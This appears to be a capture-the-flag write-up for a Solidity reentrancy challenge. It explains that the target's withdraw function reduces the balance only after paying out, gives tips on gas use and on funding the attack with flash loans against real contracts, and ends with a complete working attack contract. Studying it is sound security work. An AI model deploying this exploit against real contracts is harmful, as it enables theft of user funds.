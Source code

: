 ### Analysis
The issue with this function is that the internal balance of the sender's address is not reduced until the very end of the function. This fact can be exploited if the sender is a smart contract itself.
Some important notes:

The receive function in the attack contract must have some terminating condition, it can't just call withdraw in an infinite loop or else the transaction will not be valid.
There also can't be too many loops, otherwise the transaction will run out memory and/or gas . For this reason, it's most efficient to pass an amount to exploit exactly equal to the original contract's balance. That way, only one withdraw loop is run before the transaction terminates, thus saving gas and preventing memory issues.

In real life, a target contract could have a balance with millions of dollars worth of ETH. It's unlikely we'd have such a large amount of ETH sitting in our wallet to initiate the exploit. However, the attack can still be initiated by taking a flash loan to borrow (and return) that amount of ETH in the same transaction.

### The Exploit
deployed the follow contract,call the function of exploit:
~~~
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

interface IReentrance{
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}
contract ReentranceWrapper{
    // unit amount = IReentrance(_to).balanceOf(address(this));
    address payable owner;
    IReentrance target;

    constructor(address _target){
        owner = payable(msg.sender);
        target = IReentrance(_target);
    }

    function close() external{
        require(msg.sender ==owner);
        selfdestruct(owner);
    }

    function exploit() public payable{
        target.donate{value:msg.value}(address(this));
        target.withdraw(msg.value);
    }


    receive() external payable {  
        if(address(target).balance >= msg.value){
            target.withdraw(msg.value);
        }
    }
}
~~~